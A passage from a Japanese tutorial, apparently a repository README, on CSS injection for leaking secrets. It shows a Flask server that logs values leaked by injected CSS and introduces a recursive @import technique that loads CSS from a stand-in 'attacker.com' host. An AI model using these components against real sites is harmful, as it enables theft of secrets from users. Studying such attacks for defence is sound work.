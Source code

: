 ```python
    print(generate_attack_vector(known_secret=known_secret))


if __name__ == '__main__':
    main()
```

### 攻撃者用Webサーバ(/classic/attacker/server.py)
攻撃者用Webサーバは`0.0.0.0:8081`で起動します．  
挿入されたCSSによってリークした値を表示します．
```python
import logging
from flask import Flask, request

# Turn off default logging by Flask.
l = logging.getLogger()
l.addHandler(logging.FileHandler("/dev/null"))

app: Flask = Flask(__name__)


@app.route('/')
def index():
    secret: str = request.args.get('secret', "")
    print("secret={}".format(secret))

    return "ok"


app.run(host="0.0.0.0", port=8081)
```

# Recursive Import を用いた手法
## 概要
先ほどの手法には，ターゲットに対して毎回攻撃用のCSSをWebアプリケーションに対して送信させなければならない等問題点が存在しました．  
また，機密情報がアクセスの度にランダムに変更するようなWebアプリケーションに対しては攻撃を行うことができなくなります．  
  
上記の問題を解決するために，CSSの再帰的なインポート(Recursive Import)を活用した攻撃手法が存在します．  
本手法によって，Webアプリケーションに対する(人手を介した)攻撃用CSSの送信は1回で済むようになります．  
  
## CSSのインポートと攻撃の原理
CSSでは，以下の例に示すように，`@import`によって他のCSSファイルの内容をインポートすることができます．
```css
@import url("http://[example.com]/style.css"):
```

この機能を用いて攻撃を構成します．  
まず，以下のCSSをターゲットに送信させます．
```css
@import url("http://attacker.com/css/0.css");
```

